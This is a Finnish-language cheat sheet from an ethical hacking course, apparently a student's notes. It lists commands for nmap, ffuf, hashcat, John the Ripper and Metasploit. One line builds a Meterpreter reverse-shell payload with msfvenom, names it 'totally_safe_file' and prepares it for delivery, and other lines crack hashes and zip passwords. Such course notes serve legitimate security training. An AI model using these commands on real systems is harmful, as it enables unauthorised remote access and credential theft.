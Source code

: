 # H6 - Lähtölaskenta

Tehtävänannot luettavissa https://terokarvinen.com/2024/eettinen-hakkerointi-2024/

## A) Cheat Sheet

### Nmap 

- ``$ sudo nmap [asetukset] [kohde]``
  - ``-sS``: TCP-send skannaus (half-open connection). Palvelimen avoimien porttien ilmoituksiin ei lähetetä vastauksia.
  - ``-A``: Aggressiivinen skannaus
  - ``-p0-65535``: portit
   
### Ffuf

 - Kalissa sanakirjoja /usr/share/seclists
 - ``$ ./fuff -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://127.0.0.2:8000/FUZZ``
 - ``-ac``: autocalibrate
   - Manuaalisesti ``-fs``: filesize
 - ``-recursion``: skannaa myös löydetyt hakemistot
 - ``-e .log``: etsittävä tiedostomuoto
 -  ``-rate 2``: hakuja sekunnissa
 - ``-H "Host: FUZZ.ffuf.me"``

### Hashcat

 - ``$ hashid -m [hash]``
   - Todennäköisesti joku listan top3 tyypistä
 - ``$ hashcat -m [hashcat mode] '[hash]' -o ratkaistu.txt``

### John the ripper

 - Kaksiosainen: ``$ /john/run/zip2john testi.zip >testi.zip.hash`` & ``/john/run/john testi.zip.hash``

### Msf

 - ``$ sudo systemctl start postgresql``, ``$ msfdb init``, ``$ sudo msfconsole``
 - ``db_nmap``
 - ``services``
 - ``msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST="192.168.57.102" LPORT=1337 -f elf  > totally_safe_file``, ``$ chmod ugo+x totally_safe_file`` ennen toimitusta

### Yleiskomennot

 - ``$ script -fa log001.txt``

Lähde: https://github.com/aatuhorelli/tunkeutumistestaus/
